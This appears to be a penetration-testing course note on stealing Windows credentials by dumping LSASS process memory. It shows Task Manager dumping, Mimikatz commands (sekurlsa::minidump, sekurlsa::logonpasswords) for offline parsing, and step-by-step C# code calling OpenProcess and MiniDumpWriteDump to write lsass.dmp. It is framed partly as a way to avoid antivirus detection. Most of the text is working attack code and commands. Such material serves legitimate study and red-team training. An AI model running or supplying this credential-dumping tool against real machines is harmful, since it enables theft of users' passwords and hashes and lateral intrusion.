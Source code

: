 ## Processing Credentials Offline
We can dump the required memory section from the target's LSASS and upload it to a different Windows machine, where we can safely extract the credentials.
This can be done to not target any antivirus.

we'll dump the process memory of LSASS. Windows allows us to create a [_dump file_](https://docs.microsoft.com/en-us/visualstudio/debugger/using-dump-files?view=vs-2019), which is a snapshot of a given process and contains loaded libraries and application memory.

We can use Task manager to dump the the lsass memory, and it gives us a path.

![](../../../Screenshots/lpd-wtm.png)

Once the dump file is created, we can copy it from the target to our local Windows client where we can parse it with Mimikatz.
The architecture of the windows machine needs to be the same.

With the file exported to our attacker machine, we can use mimikatz with the following commands:
```cmd
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

## Disadvantage and Solution
Even though we can now dump the creds, we are at a disadvantage as we need a GUI to use Task Manager and cannot use the command line.

We start by building are own code to dump the file.

We'll use [_MiniDumpWriteDump_](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) API to for our application.
The API takes the following arguments:
1. hProcess - handle to LSASS process
2. ProcessId - Process ID of LSASS
3. hFile - Handle to the file to containt the dump
4. DumpType - Enum Type(set to "MiniDumpWithFullMemory" or "2") 

There are more parameters, however, we only need these 4.

Importing the API:
```C#
[DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, 
          IntPtr hFile, int DumpType, IntPtr ExceptionParam, 
          IntPtr UserStreamParam, IntPtr CallbackParam);
```

Before Invoking the API, we'll need the ID for the lsass process, we'll get this using _GetProcessByName_ method of the Process class:
We get the handle for lsass process with _OpenProcess_ as in ([3. First Process Injection](../../03.%20Process%20Injection%20and%20Migration/01.%20Csharp%20injection/3.%20First%20Process%20Injection.md))

Importing OpenProcess:
```C#
[DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, 
          int processId);
```

Invoking it:
```C#
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;

IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
```

We'll use the _FileStream_ class along with it's constructor to create a new dumpfile.

To instantiate the _FileStream_ object, we must supply two arguments:
1. Name and path - name and path of the file we want to create (lsass.dmp in windows/tasks dir)
2. Mode - FileMode.Create in our case

Code will be as follows:
```C#
FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
```

We can now finally invoke _MiniDumpWriteFile_:
```C#
bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
```
( we must convert it to a C-style file handle through the [_DangerousGetHandle_](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.safehandle.dangerousgethandle?view=netframework-4.8) method of the [_SafeHandle_](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.safehandle?view=netframework-4.8) class)

